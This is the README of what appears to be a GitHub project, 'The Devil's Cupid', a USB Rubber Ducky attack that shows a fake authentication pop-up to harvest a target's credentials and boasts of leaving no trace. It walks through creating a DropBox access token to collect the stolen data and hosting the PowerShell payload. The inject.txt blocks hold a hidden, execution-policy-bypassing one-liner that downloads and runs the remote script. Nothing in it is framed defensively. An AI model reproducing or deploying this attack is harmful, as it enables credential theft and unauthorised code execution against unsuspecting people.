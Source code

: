 
![Logo](https://static.vecteezy.com/system/resources/previews/005/308/344/original/devil-cupid-illustration-vector.jpg)
# The Devil's Cupid
Version 1.0  
Last updated 24/02/2023

The Devil's Cupid is a Rubber Ducky script that tricks your target into sharing their credentials through a fake authentication pop up message.  
It is highly adaptable and leaves no trace. (Thank you Avunit ❤️)


## Setup

What you'll need:
- A [Rubber Ducky USB HID Device](https://shop.hak5.org/products/usb-rubber-ducky) (Also works on old gen!)
- A DropBox account.
- A [DropBox Access Token](https://help.displayr.com/hc/en-us/articles/360004116315-How-to-Create-an-Access-Token-for-Dropbox#:~:text=Go%20to%20the%20Dropbox%20App,section%20and%20click%20on%20Generate.)

### Step 1
Go to your [DropBox App Console](https://www.dropbox.com/developers/apps) and click **Create app**.  

![App creation](https://i.imgur.com/KsAChJF.png)  
Configure the app as shown above. You can change *Name you app* to whatever you want.  
After you've named your app, click **Create app**.

Once your app is created, navigate to the **Permissions** tab.  
You need to enable:
- **files.metadata.write**
- **files.content.write**
- **files.content.read**
- **file_requests.write**

After making those changes, click **Submit** at teh bottom of the page to apply them.

![Permissions](https://i.imgur.com/5fGB38H.png)

Navigate back to the **Settings** tab.

![Access Token](https://i.imgur.com/H79vVY5.png)

Under **Generate access token** click **Generate**.  
You will get a unique access token. Do not share it with anyone!  

**Copy the token.** You will need it in the next step.

### Step 2
Open **devilsCupid.ps1** and edit `$DropBoxAccessToken = "<YOUR DROPBOX ACCESS TOKEN HERE>"`.  
Replace `<YOUR DROPBOX ACCESS TOKEN HERE>` with your token.

For example, if your access token is `...gwireg3hiu6rg8asasfsads2ad...` it should look like this:  
`$DropBoxAccessToken = "...gwireg3hiu6rg8asasfsads2ad..."`.

**Save the file.**

### Step 2

Go to your DropBox and upload your modified **devilsCupid.ps1** to it.

![DropBox Screenshot](https://i.imgur.com/9GcOXVi.png)

Once it's done uploading, click **Copy link**.  
The link should look something like `https://www.dropbox.com/s/sk10x6okx49kcq9/devilsCupid.ps1?dl=0`.

### Step 3
Open **inject.txt**.  
It will look like this:

```bash
DELAY 1000
GUI r
DELAY 500
STRING powershell -w h -NoP -NonI -Exec Bypass $pl = iwr LINK_TO_YOUR_DEVILSCUPID.PS1; invoke-expression $pl
ENTER
```

Replace **LINK_TO_YOUR_DEVILSCUPID.PS1** with the link you've copied in the previous step.

**VERY IMPORTANT:** Replace the end **dl=0** with **dl=1**.  
The modified link should look like `https://www.dropbox.com/s/sk10x6okx49kcq9/devilsCupid.ps1?dl=1`. 

The modified **inject.txt** should look something like this:
```bash
DELAY 1000
GUI r
DELAY 500
STRING powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://www.dropbox.com/s/sk10x6okx49kcq9/devilsCupid.ps1?dl=1; invoke-expression $pl
ENTER
```
Save the changes.

### Step 4

Navigate to [Ducktoolkit.com](https://ducktoolkit.com/encode). Credits to [James Hall](https://twitter.com/411hall) & [Kevin Breen](https://techanarchy.net/) for this awesome tool ❤️

![Duck Toolkit](https://i.imgur.com/ymaeeN7.png)

Paste your modified **inject.txt** code in the Duck Code box.  
Select the keyboard layout under *Language* tab.  
Click **Encode Payload**. 

After encoding click **Download inject.bin**.

Put the **inject.bin** file on your Rubber Ducky.  
You're done!
